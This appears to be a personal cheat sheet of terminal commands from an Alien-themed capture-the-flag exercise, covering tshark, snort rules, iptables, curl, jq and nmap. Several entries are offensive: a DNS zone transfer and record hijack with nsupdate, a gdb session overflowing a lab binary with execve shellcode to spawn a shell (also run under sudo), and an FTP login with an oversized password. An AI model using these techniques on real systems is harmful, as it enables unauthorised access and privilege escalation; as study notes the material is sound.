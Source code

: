 # Various Terminal commands

### How do you find and follow a tcp stream with tshark?
```
tshark -r snort.log.pcap -Y "http.user_agent contains Xenomorph" -T fields -e tcp.stream
tshark -r snort.log.pcap -z follow,tcp,ascii,5
```

### What is an example snort rule to alert on traffic with certain content or user_agent?
```
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:'YO WTF'; content:'Xenomorph'; sid:1000001; rev:1;classtype:trojan-activity)
```
`pcre` can be used instead of `content` to perform a regular expression filter

### What is scalpel?
It's a way to use extract files from an image binary if you know the headers and footers of the file you're looking for. It works best if you use the real hex values that you're trying to find.

### How do you use dig to perform a domain transfer?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
dig @127.0.0.1 norehca.planet axfr -b 127.34.243.1
```

### How do you use nsupdate to modify subdomain information?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
$ nsupdate
> server 127.0.0.1
> local 127.34.0.1
> update delete  hive.norehca.planet. A
> update add hive.norehca.planet. 600 A 127.0.0.1
> send
```

### Dump of various iptables commands:
```
1. Set the default policies to DROP for 
   the INPUT,FORWARD and OUTPUT chains.

sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT DROP

2. Create a rule to LOG all new SSH 
   connection attempts.
   
sudo iptables -I OUTPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"
sudo iptables -I INPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"

3. Create a rule to ACCEPT all connections 
   that are ESTABLISHED,RELATED on the INPUT
   and the OUTPUT chains.

sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

4. Create a rule to allow only remote source 
   ip address 172.18.0.222 to access the local
   SSH server on (port 22).

sudo iptables -A INPUT -p tcp -s 172.18.0.222 --dport 22 -j ACCEPT

5. Create a rule to allow any remote ip to 
   access local tcp servers on ports 25 and 80.

sudo iptables -A INPUT -p tcp --dport 25 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEP

6. Create a rule applied to the INPUT chain
   to ACCEPT all traffic from the lo interface.

sudo iptables -A INPUT -i lo -j ACCEPT

7. Create a rule to allow UDP port 53 and TCP 
   port 80 connections going out (OUTPUT).

sudo iptables -A OUTPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
```

### How do you save and use cookies with cURL?
```
curl localhost/cache --cookie-jar cookie.txt
curl localhost/upload --cookie cookie.txt
```

### How do you get and delete files from an FTP server with cURL?
```
curl -u ftpuser:ftppass ftp://127.0.0.1/filename1 -O filename1
curl ftp://ftpuser:ftppass@localhost -Q "DELE xenomorph1"
```

### How do you analyze a pcap file with an SSL keylog file?
```
tshark -r <capture_file>  -Y <wireshark_filter>  -o ssl.keylog_file:client_random.log
```

### How can you use scapy to realign the ports for server and client so that tshark can analyze the file?
```
#!/usr/bin/python
from scapy.all import *

packets = rdpcap('covert_channel.pcap')
for packet in packets:
  if packet[IP].src == '10.124.245.32':
    packet[TCP].sport = 443
    packet[TCP].dport = 59292
  else:
    packet[TCP].sport = 59292
    packet[TCP].dport = 443

wrpcap('fixed_ports.pcap', packets)
```

### Give an example of using gdb and using a payload from shell-storm to pop a shell by overwriting EIP and directing code to run the payload:
```
weyuser@14c7b2eb3e7f:~$ gdb xeno_scanner.elf 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from xeno_scanner.elf...(no debugging symbols found)...done.
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" is NOT infected with Xeno-DNA.
Program received signal SIGSEGV, Segmentation fault.
0xffffd690 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0x7fffffbb       2147483579
edx            0xf7fcd870       -134424464
ebx            0xffffd6f0       -10512
esp            0xffffd6c0       0xffffd6c0
ebp            0x54535251       0x54535251
esi            0xf7fcc000       -134430720
edi            0xf7fcc000       -134430720
eip            0xffffd690       0xffffd690
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" IS infected with xeno-DNA. Please report to the medical bay for immediate extraction
process 35 is executing new program: /bin/dash
$ ls
HELP  xeno_scanner.c  xeno_scanner.elf
$ whoami
weyuser
```

### After finding the correct payload, how can you execute a file with the payload?
```
weyuser@8914c8642587:~$ sudo ./xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80AAAAAAAAAAAAAAAAAAAA\xb1\xd6\xff\xffAAAAAAAA")
```

### Give an example jq query to filter entries based on a field matching an array of names:
```
jq '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) ' crew.json
```

### Give an example jq query to combine fields and print them in CSV format:
```
jq -cr '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) | [.latitude,.longitude] | @csv' crew.json
```

### Give an example of a scripted FTP command:
```
#!/bin/bash
HOST='127.0.0.1'
USER='root'
PASSWD=$(python -c "print('pass'+10000*'A')")
ftp -n -v $HOST << EOT
user $USER $PASSWD
ls
EOT
```

### What command helps to find non-standard open ports?
```
nmap -sV --open -p10-4000 mine.wey-tech.com
```
